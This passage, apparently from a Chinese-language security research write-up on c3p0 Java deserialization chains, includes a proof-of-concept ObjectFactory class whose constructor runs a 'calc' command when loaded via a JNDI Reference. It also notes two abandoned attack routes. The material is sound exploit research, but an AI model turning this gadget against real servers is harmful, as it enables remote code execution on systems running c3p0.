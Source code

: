 但是加载的类还得转换成ObjectFactory，并调用其方法。为了美观，我们给Reference加载的类继承上ObjectFactory，就不会报错了(还是有报错hah)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241001152833842.png)

POC：

```java
package org.exploit.third.c3p0;

import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.rmi.RemoteException;
import java.util.Hashtable;

public class c3p0_ext_ObjectFactory implements ObjectFactory {
    public c3p0_ext_ObjectFactory() throws RemoteException {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```



### extensions字段

就是改个封装，还得搞成Map，懒得弄，说不定还搞不起。



### getObject JNDI

还记得上面提到的JNDI吗

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241001154744199.png)

同样在writeObject->ReferenceIndirector.indirectForm调用构造函数

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241001154816405.png)

不过writeObject这里，new之后立马调用方法，中间根本就不能反射改值，遂放弃

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241001155001825.png)


